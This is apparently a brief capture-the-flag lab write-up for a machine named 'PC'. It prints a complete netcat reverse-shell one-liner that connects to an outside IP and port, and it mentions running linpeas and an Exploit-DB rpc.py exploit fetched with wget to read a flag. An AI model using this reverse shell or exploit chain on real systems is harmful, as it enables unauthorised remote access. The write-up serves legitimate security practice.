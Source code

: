 # PC

So i start by scanning the target and see an interesting service on port 8000:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

I input:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.245 7878 >/tmp/f
```

and get a shell:

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Not very useful but let's see so i run a linpeas:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Ok so i look up rpc.py and find some exploits:

{% embed url="https://www.exploit-db.com/exploits/50983?source=post_page-----7619983c7d63---------------------------------------" %}

so i wget the script on the target machine and run it with the command:

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

and after running it we can see flag.txt in our tmp file, could've also gotten a reverse shell but got lazy
